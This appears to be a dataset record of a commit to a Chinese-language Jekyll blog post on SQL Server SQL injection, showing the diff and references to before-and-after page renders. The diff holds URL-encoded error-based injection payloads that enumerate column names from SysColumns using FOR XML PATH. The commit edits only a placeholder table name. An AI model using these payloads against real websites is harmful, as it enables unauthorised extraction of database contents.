

Before and after one commit to Fun0nydg/Fun0nydg.github.io, a Jekyll site: the page built from _posts/2021-01-01-SQL-Server-SQL-Injection.md, in a window 1280 px wide and 900 px high, scrolled down 5728 px. Shown: the whole window, without its empty margins (253-1026 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2021-01-01-SQL-Server-SQL-Injection.md

````diff
--- a/_posts/2021-01-01-SQL-Server-SQL-Injection.md
+++ b/_posts/2021-01-01-SQL-Server-SQL-Injection.md
@@ -150,13 +150,13 @@ xxx.com?abc=a%27%0aand%0a1=(SELECT%0aname%2b%27,%27%0aFROM(SELECT%0aname%0afrom%
 ```
 成功返回表名
 
-注字段名的语句，table_name指的是表名
+注字段名的语句，table指的是注出来的表名
 ```html
 select name+',' from (SELECT Name FROM SysColumns WHERE id=Object_Id('table_name'))a FOR XML PATH('')
 ```
 那么运用到实战:
 ```html
-xxx.com?abc=a%27%0aand%0a1=(select%0aname%2b%27,%27%0afrom%0a(SELECT%0aName%0aFROM%0aSysColumns%0aWHERE%0aid=Object_Id(%27table_name%27))a%0afor%0axml%0apath(%27%27))%0aand%0a%271%27=%271
+xxx.com?abc=a%27%0aand%0a1=(select%0aname%2b%27,%27%0afrom%0a(SELECT%0aName%0aFROM%0aSysColumns%0aWHERE%0aid=Object_Id(%27table%27))a%0afor%0axml%0apath(%27%27))%0aand%0a%271%27=%271
 ```
 
 
````
